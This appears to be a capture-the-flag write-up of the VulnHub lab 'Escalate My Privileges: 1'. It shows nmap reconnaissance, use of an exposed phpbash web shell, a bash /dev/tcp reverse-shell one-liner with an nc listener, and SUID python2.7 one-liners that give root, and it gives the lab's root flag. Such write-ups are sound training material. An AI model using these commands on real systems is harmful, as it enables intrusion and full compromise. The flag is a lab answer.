 <p align="center">
  <img src="./screenshots/vintage_logo.png" alt="vintage_logo"/>
</p>

---

<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Escalate My Privileges: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>27.09.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy / Beginner Level</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595 - Active Scanning</b></td>
      <td>Scanning the target system. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>gaining access to the system through a public page with a web shell</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>Detecting a potentially dangerous executable file with the SUID bit set as root</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548 - Abuse Elevation Control Mechanism</b></td>
      <td>exploiting an executable file with the SUID bit set</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{628435356e49f976bab2c04948d22fe4}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 <img src="./screenshots/virtualbox.png" alt="virtualbox" />
</p>

> IP address of the machine being attacked - `192.168.50.149`

---
## 🕵️  Reconnaissance

> We start scanning the machine for open ports and services using `nmap` in two stages:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.149 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 192.168.50.149 -oN full_scan_results

```
```bash

Discovered open port 111/tcp on 192.168.50.149
Discovered open port 22/tcp on 192.168.50.149
Discovered open port 80/tcp on 192.168.50.149
Discovered open port 20048/tcp on 192.168.50.149
Discovered open port 2049/tcp on 192.168.50.149

```
```bash

22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 1 disallowed entry
|_/phpbash.php
|_http-title: Check your Privilege

```
> From the scan results I see some interesting open ports:

- `22 (ssh)` - used for ssh connections (OpenSSH 7.4);
- `80 (web/http)` - web server is running (Apache 2.4.6);

> Open the resource in the browser:

<p align="center">
 <img src="./screenshots/web.png" alt="web" />
</p>

> Just a picture. Nothing interesting.

> The scan revealed the presence of the page `/phpbash.php` in `robots.txt`. This can also be seen by manually navigating to `/robots.txt` in the browser:

<p align="center">
 <img src="./screenshots/robots_txt.png" alt="robots_txt" />
</p>

<p align="center">
 <img src="./screenshots/nmap_robots.png" alt="nmap_robots" />
</p>

---
## 🔓 Initial Access

> Navigate to `/phpbash.php` in the browser and you’ll see a `web-based command shell` running with the privileges of the `apache` user:

<p align="center">
 <img src="./screenshots/apache_shell.png" alt="apache_shell" />
</p>

> For convenience, we forward the reverse shell to our system:

```bash

bash -c 'bash -i >& /dev/tcp/192.168.50.127/4444 0>&1'

```
```bash

nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.50.149 38824
bash: no job control in this shell

bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$

```
> We are upgrading this shell to `pty` (`pseudo`):

```bash

bash-4.2$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
---
## 🔑⬆️    Vertical Privilege Escalation

> Let's list files with the `SUID` bit set:

```bash

bash-4.2$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```
<p align="center">
 <img src="./screenshots/suid_python.png" alt="suid_python" />
</p>

> I see a `python2.7` executable with the `SUID` bit set running as `root`. This is a potential vector for `privilege escalation`.

> [!IMPORTANT]
`SUID (Set User ID)` — This is a special permissions bit that can be set on an executable file in Linux. When a file with SUID set is executed, it
runs with the permissions of the file's owner, not the user who executed it.

> Next, either go to `gtfobins` and get the command to get the root's `EUID` from there:

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
sh-4.2# id
uid=48(apache) gid=48(apache) euid=0(root) groups=48(apache)

```
> Or we manually write a one-liner in `python` to get `full root`, setting the `UID` of the current process to `0` (that is, `root`):

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")
[root@my_privilege html]# id
uid=0(root) gid=48(apache) groups=48(apache)

```
> In both cases, we obtain root privileges and get the `root flag` in the directory - `/root`:

```bash

[root@my_privilege root]# cd /root
[root@my_privilege root]# ls
proof.txt
[root@my_privilege root]# cat proof.txt
Best of Luck
628435356e49f976bab2c04948d22fe4
[root@my_privilege root]#

```
> root flag - `628435356e49f976bab2c04948d22fe4`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>628435356e49f976bab2c04948d22fe4</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the attack on the `Escalate My Privileges: 1` system, a network scan revealed an insecure publicly accessible page at `/phpbash.php`, which provided a web-based command shell
running with the privileges of the `apache` user. This allowed for `Initial Access` to the system by establishing a reverse shell to the attacker's machine.
Subsequent local `Enumeration` identified a potentially dangerous executable `python2.7` with the `SUID` bit set and owned by `root`. This led to full system compromise by leveraging a
one-liner in python to `Escalate Privileges`.
